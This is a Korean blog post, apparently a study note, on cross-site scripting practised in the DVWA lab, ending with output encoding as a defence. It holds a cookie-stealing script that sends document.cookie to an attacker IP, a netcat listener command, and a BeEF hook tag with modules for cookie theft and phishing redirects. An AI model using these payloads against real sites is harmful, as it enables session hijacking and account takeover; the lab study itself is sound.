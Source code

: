```yaml
---
layout: post
title: "XSS 공부"
date: 2025-09-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 주로 세션 쿠키 탈취 등에 사용된다.

---

### 2. 기본 유형 및 실습

#### **Reflected XSS (반사형)**
공격 스크립트가 URL 파라미터 등을 통해 서버로 전달된 후 서버가 그 값을 응답 페이지에 그대로 포함하여 사용자에게 돌려줄 때 발생한다.

*   **DVWA 실습:**
    `XSS (Reflected)` 페이지에서 `name` 파라미터 값으로 `<script>alert('Reflected XSS')</script>`를 주입하면 서버 응답에 이 스크립트가 포함되어 경고창이 실행된다.

   ![XssReflected](/assets/images/Xss_1.png)

#### **Stored XSS (저장형)**
공격 스크립트가 게시판이나 방명록처럼 서버의 데이터베이스에 영구적으로 저장될 때 발생한다. 해당 페이지를 방문하는 모든 사용자가 공격의 영향을 받는다.

*   **DVWA 실습:**
    `XSS (Stored)` 페이지의 방명록에 `<script>alert('Stored XSS')</script>`를 포함한 메시지를 남기면 해당 스크립트가 데이터베이스에 저장된다. 이후 이 페이지를 방문하는 모든 사용자의 브라우저에서 경고창이 실행된다.

   ![XssStored](/assets/images/Xss_2.png)

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

#### **1. 공격자 리스너**
탈취한 쿠키를 수신하기 위해 공격자 PC에 서버가 필요하다. [보안 분석을 위한 리눅스 명령어 공부](https://hamap0.github.io/study/시스템-해킹/2025/09/14/보안-분석을-위한-리눅스-명령어-공부.html)에서 다룬 `netcat`을 이용해 특정 포트에서 연결을 대기하는 리스너를 실행할 수 있다.
```bash
# 80번 포트에서 연결을 대기하며 상세 정보를 출력
sudo nc -lvnp 80
```

#### **2. 쿠키 탈취 페이로드**
피해자의 브라우저에서 `document.cookie` 값을 읽어와 공격자 서버 `192.9.200.12`로 전송하는 스크립트이다.
```javascript
<script>
  document.location='http://192.9.200.12/?cookie=' + btoa(document.cookie);
</script>
```
*   `btoa()`: 쿠키 값에 포함될 수 있는 특수문자로 인해 URL이 깨지는 것을 방지하기 위해 Base64로 인코딩한다.

#### **3. 결과 확인**
이 페이로드를 Stored XSS 취약점이 있는 방명록에 삽입하면 해당 페이지를 방문하는 사용자의 브라우저는 스크립트를 실행한다. 그 결과 공격자의 `netcat` 리스너에는 피해자의 쿠키 값이 포함된 HTTP GET 요청이 수신된다.

   ![XssCookie](/assets/images/Xss_3.png)

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

#### **1. BeEF 실행 및 Hook URL 확인**
1.  공격자 PC에서 BeEF 프레임워크를 실행한다.
    ```bash
    sudo beef-xss
    ```
2.  BeEF의 관리자 페이지(UI)에 접속하여 로그인한다.
3.  관리자 페이지에 표시된 **Hook URL** (예: `<script src="http://192.9.200.12:3000/hook.js"></script>`)을 복사한다. 이 스크립트가 피해자의 브라우저를 제어하는 핵심 코드이다.

#### **2. Hook 스크립트 주입 (Stored XSS)**
1.  복사한 Hook URL 스크립트 전체를 Stored XSS 취약점이 있는 DVWA 방명록에 삽입하고 게시글을 등록한다.

#### **3. 브라우저 Hooking 및 제어**
1.  피해자가 해당 방명록 페이지를 방문하면 브라우저는 자신도 모르게 **`hook.js`** 스크립트를 실행하고 공격자의 BeEF 서버에 연결된다.
2.  공격자는 BeEF 관리자 페이지의 `Online Browsers` 목록에서 연결된 피해자의 브라우저(Hooked Browser)를 확인할 수 있다.
   ![XssBeef](/assets/images/Xss_4.png)
3.  공격자는 `Commands` 탭의 다양한 모듈을 사용하여 피해자 브라우저를 대상으로 추가 공격을 수행할 수 있다.
    *   **Get Cookies**: 피해자의 쿠키 정보를 가져온다.
    *   **Redirect Browser**: 피해자의 브라우저를 특정 피싱 사이트로 강제 이동시킨다.
    *   **Create Alert Dialog**: 피해자의 화면에 임의의 경고창을 띄운다.

---

### 5. 방어 방안: 출력 인코딩

XSS 공격의 근본적인 원인은 사용자가 입력한 데이터를 서버가 그대로 HTML의 일부로 해석하여 출력하기 때문이다. 이를 막는 가장 효과적인 방법은 **출력 인코딩(Output Encoding)**이다.

사용자가 입력한 문자열에 포함된 `<`, `>` 같은 특수문자를 브라우저가 HTML 태그로 해석하지 못하도록 아래와 같이 안전한 문자(HTML Entities)로 변환하여 출력해야 한다.
*   `<` → `&lt;`
*   `>` → `&gt;`

이렇게 인코딩된 문자열은 브라우저 화면에는 원래의 꺾쇠 기호로 보이지만 HTML 파서는 이를 태그의 시작과 끝이 아닌 단순한 텍스트로만 인식하므로 스크립트가 실행되지 않는다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **이미지 1 제작 (Reflected XSS)**

1.  웹 브라우저에서 DVWA의 `XSS (Reflected)` 페이지로 이동합니다.
2.  입력창에 `<script>alert('Reflected XSS')</script>`를 입력하고 `Submit` 버튼을 클릭합니다.
3.  화면에 "Hello" 라는 문구와 함께 자바스크립트 경고창(alert)이 나타납니다.
4.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 브라우저 주소창의 URL에 포함된 스크립트 구문 (`?name=<script>...`)
    *   **결과:** 화면 중앙에 나타난 경고창(`Reflected XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 2 제작 (Stored XSS)**

1.  DVWA의 `XSS (Stored)` 페이지로 이동합니다.
2.  `Message` 입력창에 `<script>alert('Stored XSS')</script>`를 포함한 내용을 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
3.  페이지가 새로고침되면서 방금 제출한 스크립트가 실행되어 경고창이 나타납니다.
4.  방명록 목록에 스크립트가 포함된 게시글이 보이고 동시에 경고창이 떠 있는 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  두 부분에 하이라이트를 적용합니다.
    *   **원인:** 방명록에 저장되어 출력된 스크립트가 포함된 게시글
    *   **결과:** 그로 인해 실행된 경고창(`Stored XSS`)
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 3 제작 (쿠키 값 수신)**

1.  (준비) **공격자 PC의 터미널**과 **피해자의 웹 브라우저**를 준비합니다.
2.  **공격자 PC 터미널**에서 `sudo nc -lvnp 80` 명령어를 실행하여 리스너를 시작합니다.
3.  **피해자의 웹 브라우저**에서 DVWA의 `XSS (Stored)` 페이지로 이동하여 쿠키 탈취용 `<script>` 페이로드를 방명록에 입력하고 `Sign Guestbook` 버튼을 클릭합니다.
4.  **공격자 PC 터미널**을 확인하면 브라우저로부터의 HTTP 요청이 수신되어 아래와 같은 텍스트가 출력됩니다.
    ```
    GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9... HTTP/1.1
    Host: 192.9.200.12
    ...
    ```
5.  이 HTTP 요청 정보가 모두 출력된 **공격자 PC 터미널** 화면 전체를 스크린샷으로 찍습니다.
6.  이미지 편집 프로그램을 사용하여 `/?cookie=` 뒤에 따라오는 Base64로 인코딩된 긴 문자열 부분에 명확하게 하이라이트를 적용합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **이미지 4 제작 (BeEF 연동 성공)**

이 이미지는 Stored XSS를 통해 피해자의 브라우저 제어권을 획득한 상황을 보여준다.

1.  **BeEF 관리자 페이지 캡처:**
    *   `4. 심화 활용 2`의 3단계 과정에서, 피해자의 브라우저가 `Online Browsers` 목록에 나타난 BeEF 관리자 페이지 화면을 스크린샷으로 찍는다.
2.  **명령 실행 결과 캡처:**
    *   `Commands` 탭에서 `Get Cookies`나 `Create Alert Dialog` 같은 간단한 명령을 실행하고, 그 결과가 표시된 화면을 스크린샷으로 찍는다.
3.  **최종 이미지 편집:**
    *   두 개의 스크린샷을 하나로 합치거나, 가장 핵심적인 화면(피해자 브라우저가 목록에 나타난 화면)을 선택한다.
    *   이미지에서 `Online Browsers` 목록에 나타난 피해자의 IP 주소와 OS/브라우저 아이콘에 명확한 하이라이트를 적용한다.
    *   만약 명령 실행 결과 이미지를 사용한다면, 실행한 `Module Name`과 그 `Command Results` 부분에 하이라이트를 적용한다.
    *   수정된 이미지를 게시글에 삽입한다.